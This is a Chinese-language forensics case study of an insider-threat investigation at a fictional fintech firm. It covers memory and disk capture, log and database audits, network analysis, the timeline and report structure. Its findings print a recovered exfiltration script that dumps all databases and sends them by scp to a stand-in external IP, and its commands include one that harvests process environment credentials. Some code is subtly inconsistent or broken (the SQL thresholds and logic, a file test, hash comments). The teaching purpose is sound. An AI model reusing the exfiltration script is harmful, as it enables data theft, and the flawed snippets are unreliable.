


## 案例七：内部威胁调查取证

### 案例背景

#### 案件描述

2024年3月，某中型互联网金融平台（以下简称"X公司"）的风控系统连续三天触发异常告警：**三笔单笔金额超过50万元的资金转移**均发生在凌晨 2:00-4:00 之间，且收款账户均为新注册的境外第三方支付账户。X公司拥有约 200 万注册用户，日均交易量约 15 万笔，内部系统包括交易核心、风控引擎、用户管理、数据库集群等子系统的分布式架构。

#### 威胁假设

调查团队建立了三个初始假设：

| 假设编号 | 威胁类型 | 可能性评估 | 关键证据方向 |
|---------|---------|-----------|------------|
| H1 | 外部攻击者渗透 | 中 | 网络入侵痕迹、Web日志异常 |
| H2 | **内部人员权限滥用** | **高** | 操作审计日志、VPN登录记录 |
| H3 | 内外勾结 | 低 | 通讯记录、数据传输模式 |

经初步分析，H2（内部威胁）的可能性最高，原因有三：
1. 三笔交易均通过**合法内部账号**发起，绕过了风控规则的常规校验
2. 异常交易时间与公司**值班空窗期**高度吻合（凌晨时段仅有一名运维值班）
3. 系统未检测到任何外部渗透痕迹（IDS/IPS记录正常、无暴力破解日志）

#### 法律与合规前提

在启动内部调查前，法务团队确认了以下合规要点：

- **企业监控权**：公司《员工行为守则》已明确告知"系统操作将被记录和审计"，员工入职时已签署知情同意书
- **数据采集范围**：调查限于公司资产（服务器、终端、网络设备），不涉及员工个人设备
- **证据保全要求**：依据《电子数据取证规则》（GB/T 29360-2012），所有证据需计算哈希值并存档
- **隐私保护**：员工通信内容采集需经法务和HR双重审批

### 取证准备

#### 证据优先级矩阵

根据业务影响和证据易失性，制定如下采集优先级：

| 优先级 | 证据类型 | 易失性 | 采集时限 | 法律敏感性 |
|-------|---------|-------|---------|-----------|
| P0 | **运行中内存**（RAM） | 极高（断电即失） | < 30分钟 | 低 |
| P0 | **网络连接状态** | 极高（进程终止即失） | < 15分钟 | 低 |
| P1 | 系统日志和审计日志 | 中（可能被删除） | < 2小时 | 低 |
| P1 | 数据库事务日志 | 中 | < 4小时 | 中 |
| P2 | 磁盘镜像 | 低 | < 24小时 | 中 |
| P2 | 邮件和即时通讯记录 | 低 | 视需要 | 高（需审批） |

#### 工具链选择

针对内部威胁调查场景，推荐以下工具矩阵：

| 功能域 | 推荐工具 | 替代方案 | 适用场景 |
|-------|---------|---------|---------|
| 内存采集 | LiME（Linux）、WinPmem（Windows） | FTK Imager | 服务器运行状态取证 |
| 磁盘镜像 | dd、dcfldd、Guymager | FTK Imager、EnCase | 完整磁盘克隆 |
| 日志分析 | ELK Stack、Splunk | grep/awk 快速筛查 | 海量日志模式发现 |
| SQL审计 | MySQL Audit Plugin、SQL Server Audit | 自建触发器日志 | 数据库操作追踪 |
| 网络取证 | tshark、Wireshark、Zeek | ntopng、nfdump | 网络流量还原和统计 |
| 时间线重建 | plaso（log2timeline）、Autopsy | 手动 | 全局事件关联 |
| 文件分析 | strings、binwalk、photorec |  | 恢复和侦察删除文件 |

### 取证实施

#### 第一阶段：易失性数据采集（P0）

> **核心原则**：从最易失的数据开始，严格按照"内存 → 网络连接 → 进程信息 → 磁盘"的顺序操作。

##### 1.1 服务器内存获取

交易服务器运行 Linux CentOS 7.9，使用 LiME（Linux Memory Extractor）获取完整内存镜像：

```bash
# 加载 LiME 内核模块采集内存
# --path: 输出路径  --format: lime/padded/raw
sudo insmod lime.ko "path=/evidence/trade_srv1.mem format=lime timeout=300"

# 采集完成后计算 SHA-256 校验值（必须记录作为证据链）
sha256sum /evidence/trade_srv1.mem > /evidence/trade_srv1.mem.sha256

# 使用 volatility 初步分析关键进程
# 先获取内存镜像的内存 profile
volatility -f /evidence/trade_srv1.mem imageinfo

# 列出运行进程（检查异常进程）
volatility -f /evidence/trade_srv1.mem --profile=LinuxCentOS7x64 linux_pslist

# 提取特定进程的内存空间
volatility -f /evidence/trade_srv1.mem --profile=LinuxCentOS7x64 linux_memmap -p 1234
```

**参数说明**：
- `timeout=300`：设置 300 秒超时，防止内存采集过程挂死服务器
- `format=lime`：LiME 原生格式，压缩率最优，兼容 volatility 3
- `sha256sum`：证据完整性校验，法庭呈堂必需品

**注意事项**：
- LiME 需针对目标内核版本编译（建议提前准备多版本内核的预编译模块）
- 内存采集会占用 CPU 和 I/O 资源，生产环境建议在业务低峰期执行
- 采集过程中应记录开始和结束时间戳（精确到秒）

##### 1.2 活跃网络连接捕获

```bash
# 当前 TCP 连接快照（正在进行的连接）
ss -tpan > /evidence/active_connections_$(date +%Y%m%d_%H%M%S).txt

# 当前所有监听端口
ss -tlnp > /evidence/listening_ports.txt

# 活跃连接进程映射（从 /proc 获取更详细的连接信息）
for pid in $(ls /proc/ | grep -E '^[0-9]+$'); do
  if [ -f /proc/$pid/fd/ ]; then
    ls -la /proc/$pid/fd/ 2>/dev/null | grep socket
  fi
done > /evidence/process_socket_map.txt

# 实时抓取当前网络流量（捕获 60 秒）
timeout 60 tcpdump -i eth0 -s 0 -w /evidence/live_traffic_60s.pcap
```

##### 1.3 进程与用户信息快照

```bash
# 所有运行进程（包含环境变量，用于发现隐藏的凭证）
ps auxf > /evidence/process_tree.txt
cat /proc/*/environ 2>/dev/null | strings > /evidence/process_environ.txt

# 当前登录用户和最近登录记录
who > /evidence/current_users.txt
last > /evidence/last_logins.txt
lastlog > /evidence/lastlog_all.txt

# 检查特权用户和 sudo 历史
cat /etc/sudoers > /evidence/sudoers.txt
grep -E '^\s*[a-zA-Z]' /var/log/secure | grep sudo > /evidence/sudo_history.txt
```

#### 第二阶段：持久性数据采集（P1-P2）

##### 2.1 系统日志全面采集

```bash
# 创建证据目录
EVDIR=/evidence/logs_$(date +%Y%m%d_%H%M%S)
mkdir -p $EVDIR

# 系统安全日志——sudo、ssh登录、用户切换等关键操作
cp /var/log/secure $EVDIR/
cp /var/log/messages $EVDIR/
cp /var/log/audit/audit.log $EVDIR/  # Linux auditd 日志

# shell 历史记录（按用户收集）
for user_home in /home/* /root; do
  user=$(basename $user_home)
  if [ -f $user_home/.bash_history ]; then
    cp $user_home/.bash_history $EVDIR/bash_history_${user}.txt
  fi
done

# 系统启动和定时任务
cp /etc/crontab $EVDIR/
cp -r /var/spool/cron $EVDIR/
cp /etc/rc.local $EVDIR/  # 启动脚本

# 应用程序日志
cp -r /opt/app/logs/ $EVDIR/app_logs/
cp -r /var/log/nginx/ $EVDIR/nginx/
cp -r /var/log/mysql/ $EVDIR/mysql/

# 计算所有收集日志的校验值
cd $EVDIR && find . -type f -exec sha256sum {} \; > ../log_evidences.sha256
```

##### 2.2 数据库取证

数据库是内部威胁调查的核心——交易数据、用户权限、操作记录全在这里。

```sql
-- 1. 可疑交易查询（基于异常模式）
SELECT 
    t.id,
    t.user_id,
    u.username,
    t.amount,
    t.currency,
    t.transaction_time,
    t.source_ip,
    t.recipient_account,
    t.status
FROM transactions t
JOIN users u ON t.user_id = u.id
WHERE 
    -- 条件1：金额超过日常均值的 10 倍（异常大额）
    t.amount > (SELECT AVG(amount) * 100 FROM transactions 
                WHERE DATE(transaction_time) = CURDATE())
    -- 条件2：发生在非工作时间（22:00-06:00）
    OR HOUR(t.transaction_time) BETWEEN 22 AND 23 
    OR HOUR(t.transaction_time) BETWEEN 0 AND 6
    -- 条件3：收款方为新建账户（<7天）
    OR t.recipient_id IN (
        SELECT id FROM accounts WHERE DATEDIFF(NOW(), created_at) < 7
    )
ORDER BY t.transaction_time DESC;

-- 2. 用户权限变更审计（检查是否有越权操作）
SELECT 
    al.id,
    al.user_id,
    u.username,
    al.action,          -- 'GRANT' / 'REVOKE' / 'CHANGE_ROLE'
    al.target_object,
    al.permission_name,
    al.operated_by,     -- 谁执行的权限变更
    al.operated_at,
    al.client_ip
FROM audit_log al
JOIN users u ON al.user_id = u.id
WHERE al.action IN ('GRANT', 'CHANGE_ROLE')
  AND al.operated_at > '2024-03-01'
ORDER BY al.operated_at;

-- 3. 数据导出监控（检测非正常数据访问量）
SELECT 
    user_id,
    DATE(access_time) as access_date,
    COUNT(*) as query_count,
    COUNT(DISTINCT table_name) as tables_accessed,
    SUM(CASE WHEN rows_returned > 1000 THEN 1 ELSE 0 END) as large_queries
FROM database_access_log
WHERE access_time > '2024-03-01'
GROUP BY user_id, DATE(access_time)
HAVING query_count > 100 
    OR large_queries > 10
ORDER BY query_count DESC;
```

##### 2.3 磁盘镜像制作

```bash
# 使用 dcfldd（增强版 dd，支持哈希校验）
# 参数说明：
# - if: 源设备（务必确认设备路径）
# - of: 输出镜像文件
# - bs: 块大小（4096 提升性能）
# - hash: 计算 MD5 校验
# - hashwindow: 每 1GB 输出一次分块哈希

sudo dcfldd if=/dev/sda \
  of=/evidence/trade_srv1_disk.dd \
  bs=4096 \
  hash=sha256 \
  hashwindow=1G \
  hashlog=/evidence/disk_hash.log \
  status=on

# 验证镜像完整性
sha256sum /evidence/trade_srv1_disk.dd > /evidence/trade_srv1_disk.dd.sha256
```

> **重要提示**：在取证级别，建议制作两份镜像——一份用于分析（工作副本），一份封存（证据副本）。

#### 第三阶段：流量取证与网络分析

##### 3.1 历史流量回溯

从网络设备导出历史流量记录（若已启用 NetFlow/sFlow）：

```bash
# 使用 nfdump 分析 NetFlow 数据
# 按源 IP 统计流量
nfdump -R /data/netflow/ -s ip/bytes -n 20

# 查找与敏感 IP 的通信
nfdump -R /data/netflow/ "host 192.168.1.100 and host 203.0.113.50"

# 按端口统计——查找非标准端口的通信
nfdump -R /data/netflow/ -s port -n 20
```

##### 3.2 实时抓包深度分析

```bash
# 检查可疑数据传输——文件上传、数据库导出等
# 关注 HTTP POST 请求体大小异常的连接
tshark -r live_traffic_60s.pcap \
  -Y "http.request.method == POST" \
  -T fields \
  -e frame.time \
  -e ip.src \
  -e http.content_length \
  -e http.request.uri \
  -e http.file_data \
  -E separator='|'

# 数据库查询分析（MySQL 协议）
tshark -r live_traffic_60s.pcap \
  -Y "mysql.query" \
  -T fields \
  -e frame.time \
  -e ip.src \
  -e mysql.query \
  -E separator='||'

# 检测 DNS 隧道（加密传输的常见伪装手段）
tshark -r live_traffic_60s.pcap \
  -Y "dns.qry.name" \
  -T fields \
  -e frame.time \
  -e ip.src \
  -e dns.qry.name \
  -e dns.qry.type \
  | grep -E '[a-zA-Z0-9]{20,}\.'  # 长随机子域名=隧道特征
```

#### 第四阶段：时间线重建

时间线是内部调查的**灵魂**——它将分散的证据串联成完整的故事。



**时间线重建工具**：推荐使用 `plaso`（log2timeline）实现自动化时间线生成：

```bash
# 安装 plaso
pip install plaso

# 扫描日志目录生成时间线
log2timeline --partitions all --hashers sha256 \
  /evidence/timeline.plaso /evidence/logs_20240313/

# 导出为 CSV（便于在 Excel 中分析）
psort -o l2tcsv -w /evidence/timeline.csv /evidence/timeline.plaso
```

### 证据分析

#### 关键发现

通过上述取证数据，调查团队锁定了以下证据链：


**发现 1：权限异常变更**

审计日志显示，2024年3月10日 09:02，张某（运维工程师）的账号 `zhang_m` 被临时授予了 `db_export` 角色（该角色拥有数据库全表导出权限）。授权操作来自一个内部管理台 IP `10.0.1.50`。然而：

- 张某的日常工作职责是**服务器运维**，不涉及数据库管理
- 该授权的审批流程被绕过（直接由管理员账号 `admin_sys` 执行，未触发工单系统）
- 经过 hash 对比，授予权限的 session `admin_sys` 在操作时**来源 IP** 与张某的 VPN 隧道 IP 一致

**发现 2：定时数据导出**

通过恢复被删除的 cron 任务残留，发现了如下定时任务（已从 /var/spool/cron 删除，但在审计日志残留中找到记录）：

```bash
# 此定时任务在 /var/spool/cron/zhang_m 中被删除
# 但 audit.log 中保留了 "CROND" 启动记录
0 3 * * * /home/zhang_m/.scripts/db_export.sh
```

进一步检查 `/home/zhang_m/` 目录，发现了隐藏目录 `.scripts/`，其中包含：

```bash
#!/bin/bash
# db_export.sh —— 恶意数据导出脚本
# 使用 mysqldump 导出客户数据，通过 SCP 传输到外部服务器
mysqldump -h 10.0.1.100 -u backup_user -p'********' \
  --all-databases --single-transaction \
  | gzip > /tmp/db_backup_$(date +%Y%m%d).sql.gz

# SCP 到外部服务器（境外 IP: 203.0.113.50）
echo "password123" | scp -r /tmp/db_backup_*.sql.gz \
  backup@203.0.113.50:/data/
```

**发现 3：日志清除尝试**

审计日志中发现了三条日志删除记录：

| 时间戳 | 操作 | 目标文件 | 结果 |
|-------|------|---------|------|
| 03:10:12 | rm -f | /var/log/secure | ❌ 日志被其他进程锁定，仅删除部分 |
| 03:11:45 | rm -rf | /var/spool/cron/ | ✅ 成功删除（但 audit.log 有残留） |
| 03:12:30 | truncate | /opt/app/logs/access.log | ❌ 文件句柄仍然持有，通过 lsof 恢复 |

> **关键教训**：在 Linux 系统中，如果进程正在写入日志文件，`rm` 命令仅删除文件名链接（directory entry），**文件内容（inode）仍然保留**，直到持有文件句柄的进程关闭或终止。通过 `lsof +L1` 可以找到这些已删除但仍在使用的文件。

**发现 4：通信模式分析**

NetFlow 分析揭示了张某的工作站与外部 IP `203.0.113.50` 之间的通信模式：

```text
日期时间         源IP          目标IP          协议  端口  流量(bytes)
2024-03-10 10:30 10.0.1.50     203.0.113.50    SSH   22   12,345
2024-03-11 03:00 10.0.1.50     203.0.113.50    SSH   22   1,234,567
2024-03-12 03:02 10.0.1.50     203.0.113.50    SSH   22   2,345,678
2024-03-13 03:05 10.0.1.50     203.0.113.50    SSH   22   1,987,654
```

- 通信集中在凌晨 3:00-3:10（与 cron 任务执行时间吻合）
- 传输量从第一次的 12KB 激增到 1-2MB（对应数据库导出文件压缩包）
- 使用标准 SSH 端口 22，伪装为正常运维连接

#### 完整的证据链

| 环节 | 证据 | 来源 | 证明力 |
|-----|------|-----|-------|
| 动机 | 张某近三个月有赌博网站访问记录（代理日志） | Web代理 | 辅助证据 |
| 能力 | 拥有服务器 root 权限，掌握运维操作 | 权限审计 | 强 |
| 机会 | 监控薄弱，可在凌晨空窗期操作 | 值班表+时间线 | 强 |
| 行为 | 被删除的 export 脚本 + cron 残留 | 磁盘取证 | 极强 |
| 通信 | SCP 传输到境外 IP 的 NetFlow 记录 | 网络取证 | 极强 |
| 痕迹 | 日志删除尝试 + 未清理的审计记录 | 日志分析 | 强 |
| 后果 | 三笔异常转账 + 客户数据泄漏 | 数据库审计 | 极强 |

### 取证报告撰写

#### 报告标准结构

一份可供司法采用的内部威胁取证报告应包含以下部分：

```markdown
# 数字取证调查报告

## 1. 案件概要
- 调查编号：[编号]
- 调查对象：[系统/人员]
- 调查时间：[起止时间]
- 调查人员：[姓名/团队]

## 2. 调查背景
- 触发条件（风控告警/投诉/审计发现）
- 初步评估和范围界定
- 法律合规审批记录

## 3. 取证过程
### 3.1 证据采集清单
| 证据编号 | 证据类型 | 采集时间 | 采集工具 | SHA-256 |
|---------|---------|---------|---------|---------|
| E001 | 内存镜像 | 2024-03-13 14:02 | LiME v3.0 | abc123... |
| E002 | 磁盘镜像 | 2024-03-13 14:30 | dcfldd v1.9 | def456... |
| E003 | 日志集合 | 2024-03-13 15:00 | cp/tar | ghi789... |

### 3.2 证据链完整性
- 所有证据的哈希校验记录
- 保管链（Chain of Custody）记录：每次证据移交的时间、人员、目的

## 4. 分析发现
- 时间线重建（精确到秒的事件序列）
- 关键数据发现（异常的 SQL、文件、网络活动）
- 数据恢复结果（已删除的日志、文件、定时任务）
- 关联分析（将分散证据关联起来）

## 5. 结论和建议
- 行为定性（是否违反政策 / 法律）
- 影响的业务范围和数据
- 推荐的补救措施和预防方案

## 6. 附录
- 采集工具版本和验证信息
- 原始数据样本（脱敏后）
- 法律依据引用
```

#### 报告最佳实践

1. **客观陈述，避免主观判断**：使用"证据显示..."而非"我们认为..."
2. **时间精确到秒**：所有事件必须标注精确时间戳和时区（建议 UTC+8）
3. **保留原始数据引用**：每个结论必须标注原始证据编号和位置
4. **数据脱敏**：公开版本报告须对客户姓名、身份证号等敏感信息做脱敏处理
5. **版本控制**：报告应有版本号和修改记录，每次修改需注明原因

### 常见误区与纠正

#### 误区 1：先关机再取证

**错误做法**：发现内部威胁后，第一时间关闭服务器——这会导致内存数据完全丢失，且可能会触发嫌疑进程的自动清理程序。

**正确做法**：
1. 保持服务器运行状态
2. 按照易失性从高到低的顺序采集证据
3. 最后才执行安全关机（如需）
4. 关机前记录所有运行进程和网络连接

#### 误区 2：直接在源系统上分析

**错误做法**：在原始服务器上直接运行分析工具（如 strings、grep），这会修改磁盘上文件的 `atime`（访问时间），可能导致证据被法庭质疑。

**正确做法**：
1. 制作完整磁盘镜像（使用 dcfldd）
2. 在工作副本上进行分析
3. 原始镜像封存，不直接操作
4. 所有分析操作在分析报告中记录

#### 误区 3：忽视日志来源的时间偏差

**错误做法**：直接对比不同服务器的日志时间戳，未考虑服务器时钟偏差。

**正确做法**：

```bash
# 采集每个服务器的 NTP 同步状态
# 记录时钟偏差用于后续校正
timedatectl status > /evidence/clock_status_$(hostname).txt
ntpq -p > /evidence/ntp_status_$(hostname).txt

# 如果服务器间时钟偏差大于 5 秒，需要在校正后重建时间线
# 校正方式：
# 1. 使用 NTP 日志确定偏差值
# 2. 在时间线分析时做偏移量补偿
# 3. 在报告中注明校正方法
```

#### 误区 4：遗漏"关联分析"

**错误做法**：只分析了数据库日志或只分析了系统日志，没有将不同数据源关联起来。

**正确做法**：使用时间线工具（plaso）或 SIEM 系统将所有日志源统一导入，通过时间戳和共同字段（如 IP/用户名/进程ID）进行关联分析。

### 进阶专题

#### 1. 反篡改技术

传统日志可能被内部人员篡改，高级防护方案包括：

- **WORM 存储**：使用 Write-Once-Read-Many 存储设备（如 CD-R、专用审计设备）保存关键日志
- **区块链日志**：将日志哈希写入区块链，篡改可被立即检测
- **远程日志转发**：使用 syslog-ng/rsyslog 将日志实时转发到独立的 SIEM 服务器，嫌疑人无法访问
- **内核级审计**：启用 Linux auditd，规则写入 `/etc/audit/rules.d/audit.rules`：

```bash
# 监控关键文件变更
-w /etc/passwd -p wa -k identity_monitoring
-w /etc/shadow -p wa -k identity_monitoring
-w /etc/sudoers -p wa -k sudoers_changes

# 监控所有特权命令执行
-a exit,always -F arch=b64 -S execve -F euid=0 -k root_commands

# 监控时间修改（防止日志时间线被篡改）
-a always,exit -F arch=b64 -S settimeofday -S clock_settime -k time_change

# 监控网络配置变更
-w /etc/hosts -p wa -k network_config
-w /etc/resolv.conf -p wa -k network_config
```

#### 2. 反取证对抗方法

内部威胁者可能使用反取证技术，调查者需要了解这些对抗手法：

| 反取证手法 | 检测方法 | 绕过技巧 |
|-----------|---------|---------|
| **时间戳伪造**（touch -t） | 对比文件 MAC 时间与周边事件 | 检查文件系统 journal 日志 |
| **数据覆写**（shred、dd） | 寻找残留的 inode 结构 | 检查文件系统元数据区 |
| **加密容器**（VeraCrypt、LUKS） | 寻找随机数据块或卷头 | 内存镜像可提取解密密钥 |
| **日志清除**（rm、truncate） | 检查审计日志、文件句柄 | 使用 lsof 恢复已删除文件 |
| **进程隐藏**（LD_PRELOAD rootkit） | 对比 /proc 和系统调用 | 内存取证可发现隐藏进程 |

#### 3. 内部威胁预防体系

取证是事后手段。一个完整的内部威胁防护体系应包含事前预防、事中检测和事后追溯：



#### 4. 推荐工具速查表

| 类别 | 工具 | 安装方式 | 关键参数 | 学习曲线 |
|-----|------|---------|---------|---------|
| 内存取证 | Volatility 3 | `pip install volatility3` | `vol -f mem.dump windows.info` | ⭐⭐⭐ |
| 磁盘取证 | Autopsy（Sleuth Kit） | `apt install autopsy` | GUI + 命令行 | ⭐⭐ |
| 时间线 | plaso | `pip install plaso` | `log2timeline --help` | ⭐⭐⭐ |
| 流量分析 | Zeek | `apt install zeek` | `zeek -r file.pcap local` | ⭐⭐⭐⭐ |
| 文件恢复 | TestDisk/PhotoRec | `apt install testdisk` | `photorec /d /evidence/ /dev/sda1` | ⭐ |
| 注册表分析 | regripper | `apt install regripper` | `rip.pl -r SYSTEM -f software` | ⭐⭐ |

### 总结

本案例展示了完整的内部威胁调查取证流程。核心要点总结如下：

1. **第一时间保全易失性证据**——内存和网络连接在数秒内就可能丢失
2. **严格按照证据链流程操作**——每一步的哈希校验和保管链记录决定了证据的可采性
3. **关联分析是破案的关键**——单一日志源永远不足以定论，需要多个证据相互印证
4. **嫌疑人会尝试反取证**——日志清除、数据覆写等手法需要调查者提前准备应对方案
5. **取证是系统工程**——从合法授权到工具选择到报告撰写，每个环节都影响最终结果
6. **预防优于响应**——良好的权限管理和行为监控体系能从源头减少内部威胁发生的概率

本案例中的技术手段和流程框架可直接应用于金融机构、电商平台、SaaS 服务商等任何涉及敏感数据和资金流转的组织的内部审计和调查工作中。
